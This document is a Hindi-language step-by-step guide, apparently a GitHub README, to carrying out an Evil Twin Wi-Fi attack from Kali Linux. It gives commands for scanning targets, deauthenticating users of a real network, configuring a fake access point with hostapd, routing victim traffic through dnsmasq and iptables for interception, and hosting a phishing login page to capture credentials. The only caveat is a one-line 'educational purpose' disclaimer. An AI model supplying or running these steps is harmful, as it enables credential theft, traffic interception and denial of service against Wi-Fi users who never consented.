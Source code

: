 
# 🛠️ Evil Twin Attack (हिंदी गाइड)

## 📌 Evil Twin क्या है?
Evil Twin एक Wi-Fi hacking technique है, जिसमें attacker एक fake Wi-Fi Access Point (AP) बनाता है, 
जो दिखने में असली नेटवर्क जैसा होता है। यूज़र गलती से इससे connect हो जाते हैं और attacker उनके 
credentials, traffic और data capture कर लेता है।

---

## 🔍 Evil Twin कैसे काम करता है?
1. **Target Network Scan** – पहले असली Wi-Fi network की जानकारी निकाली जाती है (SSID, BSSID, Channel)  
2. **Fake Access Point बनाना** – उसी SSID से एक नकली Wi-Fi hotspot बनाया जाता है  
3. **Deauthentication Attack** – असली नेटवर्क के यूज़र्स को disconnect किया जाता है  
4. **User Connect करता है** – यूज़र गलती से नकली AP से connect हो जाते हैं  
5. **Data Capture / Phishing** – Login पेज दिखाकर credentials चुराए जाते हैं या traffic sniff किया जाता है  

---

## 🧪 Evil Twin + MITM Attack
अगर fake AP में इंटरनेट access दिया जाए, तो attacker victim का सारा traffic capture कर सकता है और 
Man-in-the-Middle (MITM) attack चला सकता है।

उदाहरण:  
- HTTP sites से passwords capture करना  
- HTTPS sites पर SSL stripping  
- Session hijacking  

---

## 🎯 Evil Twin + Phishing Page
इसमें fake login पेज host किया जाता है (उदाहरण: Facebook, Gmail)  
जब victim connect करता है और कोई भी page खोलने की कोशिश करता है, तो उसको fake login page redirect किया जाता है।
Victim जैसे ही credentials डालता है, वो attacker के पास save हो जाते हैं।

---

## 🛠️ Setup in Kali Linux

### 1. जरूरी Tools Install करें
```bash
sudo apt update
sudo apt install aircrack-ng hostapd dnsmasq apache2 php
```

### 2. Target Network Scan
```bash
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon
```
📌 Note: यहाँ से SSID, BSSID, और channel note करें।

### 3. Deauthentication Attack
```bash
sudo aireplay-ng --deauth 10 -a <BSSID> wlan0mon
```

### 4. Fake AP बनाना (hostapd.conf)
```conf
interface=wlan0
driver=nl80211
ssid=My_Free_WiFi
hw_mode=g
channel=6
macaddr_acl=0
ignore_broadcast_ssid=0
```
Run:
```bash
sudo hostapd hostapd.conf
```

### 5. Internet / MITM Setup
```bash
sudo dnsmasq -C dnsmasq.conf
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

### 6. Phishing Page Setup
```bash
sudo service apache2 start
sudo cp -r phishing_page/* /var/www/html/
```

---

## ⚠️ Legal Disclaimer
यह tutorial सिर्फ **educational purpose** के लिए है। किसी भी unauthorized network पर hacking illegal है।

---

## 📂 Practice Download
[Evil Twin Lab Demo Download करें](sandbox:/mnt/data/evil_twin_lab_demo.zip)
